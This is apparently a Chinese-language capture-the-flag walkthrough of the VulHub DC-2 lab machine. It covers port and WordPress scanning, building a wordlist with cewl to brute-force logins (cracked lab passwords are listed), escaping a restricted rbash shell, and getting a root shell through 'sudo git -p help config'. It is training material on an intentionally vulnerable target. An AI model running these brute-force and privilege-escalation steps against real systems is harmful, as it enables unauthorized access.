# VulHub--DC-2

## 1. 信息收集

### 1.1 端口扫描

```bash
nmap -sS -sV -sC -T4 -A -O -p- 192.168.56.106
```



结果:
80端口: Apache httpd 2.4.10
7744端口: OpenSSH 6.7p1

### 1.2 目录扫描

```bash
dirsearch -u 'http://192.168.56.106'
```



### 1.3 WPscan扫描

发现网站使用wordpress框架,使用wpscan扫描


```bash
wpscan --url http://DC-2
```

探测出wp版本为4.7.10



枚举 插件主题用户名

```bash
wpscan --url http://DC-2 -e vp,vt,u
```



得到三个用户名,分别为:
admin
jerry
tom

### 1.4 页面分析

#### 1.4.1 flag1

访问网站,发现是一个博客网站,点击FLAG,拿到第一个flag



提示我们使用cewl爬取字典用于爆破

```bash
cewl 'http://DC-2' -w p.txt

wpscan --url 'http://DC-2' -U u.txt -P p.txt
```



得到密码:
jerry:adipiscing
tom:parturient

### 1.5 用户登录

#### 1.5.1 flag2

使用jerry登录后在page模块找到第二个flag




## 2. 提权

### 2.1 ssh枚举

使用枚举到的用户名和密码登录ssh，发现tom可以成功登录



#### 2.1.1 flag3

在tom家目录发现flag3但是不能读取,提示没有找到命令,发现是环境变量被限制,并且不允许使用绝对路径调用/bin下的命令



只允许使用/home/tom/usr/bin目录下的命令,可以使用vi查看flag3



提示我们使用su切换用户至jerry,进行rbash逃逸

```bash
BASH_CMD[a]
a
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
```

#### 2.1.2 flag4

成功逃逸后su切换至jerry,使用爆破出的密码成功切换,在家目录发现flag4



#### 2.1.3 flag5

sudo -l发现可以使用git提权至root

```bash
sudo git -p help config
!/bin/sh
```


